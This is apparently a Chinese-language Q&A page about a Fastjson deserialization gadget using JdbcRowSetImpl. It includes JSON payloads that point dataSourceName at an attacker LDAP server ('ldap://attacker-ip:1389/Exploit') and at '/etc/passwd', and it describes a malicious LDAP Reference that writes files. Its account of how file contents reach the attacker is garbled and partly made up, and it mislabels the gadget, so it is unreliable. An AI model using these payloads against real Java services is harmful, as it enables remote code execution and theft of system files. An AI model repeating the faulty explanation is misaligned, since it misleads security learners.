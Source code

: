 ### Fastjson 文件读写 gadget 是哪条，原理是什么

**Fastjson 文件读写 Gadget：`JdbcRowSetImpl`**

`JdbcRowSetImpl` 本身是一个 JDBC 相关的类，它的功能是通过 JNDI 来获取数据源。这个类在 Fastjson 中被利用，是因为它的 `dataSourceName` 属性在反序列化时，会触发一个 JNDI 查找

**攻击原理：从 JNDI 注入到文件读写**

这条 Gadget 的核心原理是利用 JNDI 协议的**文件查找功能**

1. **Fastjson 漏洞触发**： 攻击者构造一个恶意的 JSON 数据，其中包含 `JdbcRowSetImpl` 类，并将其 `dataSourceName` 属性设置为一个恶意的 URL

   ```json
   {
       "@type":"com.sun.rowset.JdbcRowSetImpl",
       "dataSourceName":"ldap://attacker-ip:1389/Exploit",
       "autoCommit":true
   }
   ```

   当 Fastjson 对这段 JSON 进行反序列化时，会实例化 `JdbcRowSetImpl` 对象，并调用其 `setDataSourceName()` 方法。这个方法会触发一个 JNDI 查找

2. **JNDI 文件查找**： JNDI 不仅支持 `ldap`、`rmi` 等协议，它也支持 `file` 协议。`file` 协议允许 JNDI 客户端查找本地的文件

3. **攻击者构造恶意 JNDI URL**： 攻击者在 `dataSourceName` 中，将协议从 `ldap` 替换为 `file`，并将文件路径设置为目标服务器上的敏感文件，例如 `/etc/passwd`

   ```json
   {
       "@type":"com.sun.rowset.JdbcRowSetImpl",
       "dataSourceName":"file:///etc/passwd",
       "autoCommit":true
   }
   ```

   当 Fastjson 反序列化这个 JSON 时，`JdbcRowSetImpl` 会向 JNDI 服务发起一个本地查找，查找 `/etc/passwd` 文件

4. **文件读取**： JNDI 服务找到这个文件后，会将其内容作为**一个 Java 对象**返回。这个对象包含了文件的内容。攻击者在自己的服务器上，通过监听端口，就可以截获这个 JNDI 响应，从而获取到 `/etc/passwd` 文件的内容

**为什么能实现“文件写入”？**

文件写入的原理与文件读取类似，但它利用的是 JNDI 对**`DataSource` 对象**的特殊处理

1. **构造恶意 `DataSource`**： 攻击者构造一个恶意的 `DataSource` 对象，这个对象在反序列化时，会执行文件写入操作
2. **JNDI 注入文件写入**： 攻击者将 `dataSourceName` 设置为一个可以触发 JNDI 注入的 URL，例如 `ldap://attacker-ip:1389/WriteFile`
3. **触发文件写入**： 在攻击者的 LDAP 服务器上，返回一个恶意的 `Reference` 对象，其 `factory` 指向一个可以执行文件写入操作的类。当目标服务器接收并加载这个 `Reference` 对象时，就会触发文件写入